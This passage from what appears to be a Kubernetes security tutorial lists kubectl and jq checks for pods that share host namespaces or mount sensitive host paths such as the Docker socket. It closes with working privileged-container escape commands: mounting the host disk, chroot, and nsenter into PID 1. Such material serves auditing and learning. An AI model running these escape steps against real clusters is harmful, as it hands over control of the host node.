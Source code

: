 **2. Host Namespace Sharing**

Identify containers sharing host namespaces:

```bash
# Check for host network access
kubectl get pods -o yaml | grep "hostNetwork: true"

# Check for host PID namespace
kubectl get pods -o yaml | grep "hostPID: true"

# Check for host IPC namespace
kubectl get pods -o yaml | grep "hostIPC: true"

# Comprehensive host sharing check
kubectl get pods -A -o json | jq '.items[] | select(.spec.hostNetwork == true or .spec.hostPID == true or .spec.hostIPC == true)'
```

**3. Dangerous Volume Mounts**

Look for sensitive host path mounts:

```bash
# Check for host path volumes
kubectl get pods -o yaml | grep -A 5 -B 5 "hostPath"

# Look for root filesystem mounts
kubectl get pods -o json | jq '.items[] | select(.spec.volumes[]?.hostPath?.path == "/")'

# Check for Docker socket mounts
kubectl get pods -o json | jq '.items[] | select(.spec.volumes[]?.hostPath?.path == "/var/run/docker.sock")'

# Identify pods with sensitive mounts
kubectl get pods -A -o json | jq '.items[] | {name: .metadata.name, namespace: .metadata.namespace, volumes: .spec.volumes}'
```

### Container Escape Techniques

**1. Privileged Container Escape**

If running in a privileged container:

```bash
# Check if privileged
id
cat /proc/self/status | grep Cap

# Mount host filesystem
mkdir /host
mount /dev/sda1 /host
chroot /host

# Or use nsenter for host access
nsenter -t 1 -m -u -i -n -p /bin/bash
```

